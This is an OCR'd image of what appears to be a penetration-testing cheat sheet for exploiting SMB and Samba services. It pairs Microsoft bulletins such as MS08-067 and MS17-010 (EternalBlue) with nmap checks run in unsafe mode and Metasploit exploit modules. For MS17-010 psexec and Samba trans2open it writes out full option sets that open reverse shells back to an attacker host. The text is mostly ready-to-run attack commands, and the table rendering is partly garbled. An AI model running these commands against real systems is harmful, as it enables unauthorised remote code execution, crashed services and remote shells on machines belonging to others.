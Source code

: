 |--------------------------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|

Various vulnerable systems using this service can be detected.

| 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60  | \#MS03-026: Buffer Overrun In RPC Interface Could Allow Code Execution (823980) [CAN-2003-0352] Exploit-DB: 66.c  \#MS06-025: Vulnerability in Routing and Remote Access Could Allow Remote Code Execution (911280) [CVE-2006-2370] (Buffer overflow in RRAS) nmap -sV -p445 --script=smb-vuln-ms06-025 --script-args unsafe=1 10.10.x.x  \#MS06-040: Vulnerability in Server Service Could Allow Remote Code Execution (921883) (uncredentialed check) [CVE-2006-3439] use exploit/windows/smb/ms06_040_netapi \*\*\*  \#MS07-029: Vulnerability in Windows DNS RPC Interface Could Allow Remote Code Execution (935966) [CVE-2007-1748] (Buffer overflow which can crash the RPC intrface in the DNS Server) nmap -sV -p445 --script=smb-vuln-ms07-029 --script-args unsafe=1 10.10.x.x  \#MS08-067: Microsoft Windows Server Service Crafted RPC Request Handling Remote Code Execution (958644) (uncredentialed check) [CVE-2008-4250] (Buffer overflow/RCE. Dangerous, can crash the target) nmap -sV -p445 --script=smb-vuln-ms08-067 --script-args unsafe=1 10.10.x.x nmap -sV -p445 --script=smb-vuln-conficker --script-args unsafe=1 10.10.x.x \# (dangerous, can crash target) Exploit-DB: 7132.py \*\*\* msf \> use exploit/windows/smb/ms08_067_netapi \*\*\*  \#MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) [CVE-2010-2729] (Print vulnerability. Safe and can\\'t crash the target) nmap -sV -p445 --script=smb-vuln-ms10-061 --script-args unsafe=1 10.10.x.x  \#MS17-010: Security Update for Microsoft Windows SMB Server (4013389) (uncredentialed check) [CVE-2017-0143] (RCE, just checking if vulnerable) nmap -sV -p445 --script=smb-vuln-ms17-010 --script-args unsafe=1 10.10.x.x nmap -sV -p445 --script=smb2-vuln-uptime --script-args smb2-vuln-uptime.skip-os=true 10.10.x.x msf \> use auxiliary/scanner/smb/smb_ms17_010 msf \> use exploit/windows/smb/ms17_010_eternalblue msf \> use exploit/windows/smb/ms17_010_psexec  \#(IMPORTANT MS17_010_PSEXEC is a staged payload, means you need meterpreter !) \#(IMPORTANT 2, if object can\\'t be found, try to modify your target !) set SHARE ADMIN\$ set SMBDomain secybr.local set ALLOW_GUEST true set LPORT 445 set LHOST 10.10.y.y set RHOST 10.10.x.x set TARGET 3 \#(TARGET 1 = PowerShell / TARGET 2 = Native / TARGET 3 = MOF =\> share ADMIN\$) set PAYLOAD windows/shell/reverse_tcp set VERBOSE true set DBGTRACE true set EXITFUNC thread exploit -j  \#Trans2open Exploitation \# Samba 2.2.X are usually vulnerable to trans2open msf \> use exploit/linux/samba/trans2open set VERBOSE true set PAYLOAD linux/x86/shell_reverse_tcp set RHOST 10.10.x.x set LPORT 443 set LHOST IP exploit -j -z  \#Samba 3.4.5 Symlink Directory Traversal \# You can mount the root fiilesystem to a share you can access https://www.exploit-db.com/exploits/33599  \# Using metasploit https://www.exploit-db.com/exploits/33598 msf \> use auxiliary/admin/smb/samba_symlink/traversal  |